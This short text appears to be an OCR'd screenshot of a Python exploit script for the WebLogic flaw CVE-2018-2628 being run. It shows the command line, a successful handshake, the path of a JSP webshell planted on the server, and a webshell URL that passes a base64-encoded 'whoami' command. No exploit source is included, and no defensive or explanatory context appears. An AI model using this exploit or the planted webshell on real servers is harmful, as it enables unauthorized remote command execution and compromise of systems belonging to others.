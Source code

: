 Python cve-2018-2628_webshell.py IP PORT shell1.jsp
[*] handshake successful
[*] usage: python cve-2018-2628.py ip port shell1.jsp
[+] Shell Dir: servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\shell1.jsp

[+] Webshell: http://IP:PORT/bea_wls_internal/shell1.jsp?tom=d2hvYW1pCg==
